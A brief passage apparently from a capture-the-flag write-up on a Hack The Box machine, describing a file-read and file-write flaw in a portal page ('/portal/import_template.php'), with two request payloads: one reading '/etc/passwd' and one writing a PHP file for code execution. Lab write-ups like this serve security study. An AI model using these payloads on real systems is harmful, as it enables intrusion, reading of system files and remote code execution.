 ![](/assets/img/23-file-upload.png)

can edit files in `/var/www/hms.htb/public_html/sites/default`

according to vulnerability report pdf can read and write arbitrary files on the filesystem with:

* `mode=get&docid=/etc/passwd`
* `mode=save&docid=rce.php&content=<?php phpinfo();?>`

  on the page `/portal/import_template.php`

![](/assets/img/25-burp-rce-upload.png)

![](/assets/img/26-rce.png)
